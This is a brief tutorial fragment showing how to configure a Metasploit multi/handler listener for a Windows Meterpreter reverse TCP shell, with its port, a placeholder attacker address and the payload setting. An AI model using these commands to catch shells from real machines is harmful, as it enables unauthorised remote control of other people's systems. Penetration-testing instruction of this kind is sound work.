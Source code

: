 


We start off by launching **Metasploit** : 


>	msfconsole


... and within *Metasploit* :

>	use multi/handler 

and then we set the **Listener's Port** : 

>	set LPORT 5678

and then we set the **Listener's Address** : 

>	set LHOST *attacking_ip_address*

and finally! we do the following : 

>	set payload windows/meterpreter_reverse_tcp



